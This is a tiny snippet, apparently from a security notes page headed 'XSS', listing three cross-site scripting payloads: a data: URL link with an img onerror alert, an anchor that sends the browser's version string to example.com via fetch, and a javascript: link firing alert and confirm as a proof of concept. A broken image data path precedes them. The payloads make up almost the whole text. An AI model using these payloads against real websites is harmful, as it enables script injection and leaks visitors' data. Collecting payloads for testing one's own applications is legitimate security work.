 # XSS


data:text/html,<a href="javascript:'<img src=e onerror=alert()>';">click</a>

<a href='fetch("//example.com?"+navigator.appVersion)'>test</a>

<a href="javascript:{alert(00)confirm(00)}">POC</a>

